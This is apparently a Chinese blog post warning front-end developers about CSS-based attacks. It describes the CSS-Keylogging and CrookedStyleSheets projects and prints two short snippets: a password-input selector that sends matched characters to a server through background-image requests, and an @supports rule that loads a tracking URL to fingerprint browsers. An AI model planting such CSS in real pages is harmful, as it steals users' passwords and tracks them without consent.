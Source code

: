 ```yaml
---
layout: post
title: 一种通过CSS选择器盗取用户密码的攻击方式
subtitle: web安全,不一样的css
date: 2019-03-12 13:57
author: Youga
header-img: https://source.unsplash.com/900x400/?security,computer&a=1232
catalog: true
tags:
  - web
  - security
---
```


最近有关于 css 安全问题的讨论比较火热。

话题的开始是由两个有趣的开源项目，`CSS-Keylogging` 和 `CrookedStyleSheets`。

首先是`CSS-Keylogging` 从名字可以看出，项目提出通过 css 记录用户的输入并上传到服务器。实现方式也比较简单，通过枚举输入值的选择器，选择器一旦匹配就将携带的信息上传到服务端。服务器保存请求序列,按时间排序分析就可以得到用户隐秘信息。

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

而 `CrookedStyleSheets` 提供了一个无 javascript 的用户交互跟踪方案。仅通过 css 样式代码就可以跟踪用户何时悬停鼠标，何时点击链接，何时在输入字段中输入文本，以及收集大量真实的用户代理信息，即便用户使用假的 UA 也没有用。

此外，css 可以对用户浏览器进行探测

基于 @supports Media-Query，css 资源请求在特定条件下触发。相当于使用了**浏览器的选择器**

```css
@supports (-webkit-appearance: none) {
  #target::after {
    content: url("track.php?action=browser_chrome");
  }
}
```

两个项目给了前端开发者警惕。安全问题，无孔不入。以往我们关注跨站脚本攻击，避免非法代码被执行，而看似温顺的 css 现在安全性也需要重新去评估。
